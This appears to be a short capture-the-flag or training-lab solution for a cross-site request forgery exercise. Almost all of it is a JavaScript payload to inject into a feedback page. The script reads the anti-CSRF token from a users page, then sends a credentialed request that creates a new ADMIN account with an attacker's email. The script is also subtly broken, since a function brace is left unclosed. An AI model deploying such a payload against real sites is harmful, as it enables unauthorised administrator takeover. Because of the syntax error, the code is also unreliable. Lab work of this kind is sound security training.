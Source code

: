 



### Lab3

add this script in the feedback page.

```html
<script>
function addUser(token){
var url = "http://3.csrf.labs/add_user.php";
var params = "name=Smith&surname=Malice&email=malice%40hacker.site&role=ADMIN&submit=&CSRFToken="+token;
var CSRF = new XMLHttpRequest();
CSRF.open("POST", url, true);
CSRF.withCredentials = true;
CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
CSRF.send (params);
}

// First send a request to get the csrf token, then send the POST request with the token
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if(this.readyState == 4) {
    var htmlSource = xhr.responseText;
    
    //Extract the csrf token
    var parser = new DOMParser().parseFromString(htmlSource, "text/html");
    var token = parser.getElementById('CSRFToken').value;
    addUser(token);
  }
xhr.open("GET", "http://3.csrf.labs/users.php", true);
xhr.send();

</script>
```

here, the referrer header and csrf token should exist.

